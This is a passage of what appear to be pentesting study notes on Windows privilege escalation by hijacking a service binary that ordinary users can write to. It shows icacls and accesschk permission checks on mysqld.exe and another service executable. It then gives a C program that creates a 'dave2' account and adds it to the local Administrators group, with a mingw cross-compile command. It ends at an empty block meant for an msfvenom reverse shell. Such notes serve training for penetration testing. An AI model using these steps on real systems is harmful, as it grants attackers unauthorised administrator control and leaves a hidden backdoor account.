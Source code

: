 Since our compromised user account is `dave` (who is part of the `BUILTIN\Users` group), we can only read and execute `httpd.exe`. Next, lets check the other `\xampp` binary:
```powershell
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```
**BINGO**! According to the output, `dave` has *full access* to the `mysqld.exe` service binary which means we can perform service hijacking on it by overwriting the file with our own executable.
#### `accesschck.exe`
[AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) is part of Windows SysInternals. In this scenario, we can use it to double check the access and persmissions attached to potentially vulnerable executables. For example, if we check `filepermservice.exe` (which we found with `winPEAS`) it would look like this:
```powershell
PS C:\Users\admin> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WINDOWS-10-OSCP\vboxuser
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```
### Writing a Malicious Binary
Now that we have a target service binary, we need to create the malcious binary we want to replace it with. We can write a simple binary using [C](../../../coding/languages/C.md) which creates a new user named `dave2` and adds that user to the local `Administrators` group. Then we'll cross compile it (on our Kali machine) to run on the Windows victim machine. 

Here is our C code:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
#### Cross Compiling
To cross compile it on our Kali machine to a 64-bit Windows binary, we need to use `mingw-64`. Assume our C file is called `adduser.c`:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
#### Using `msfvenom`
Instead of writing a malicious binary yourself, you could also replace the affected binary with a reverse shell created with [MSFvenom](../../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom):
```bash
```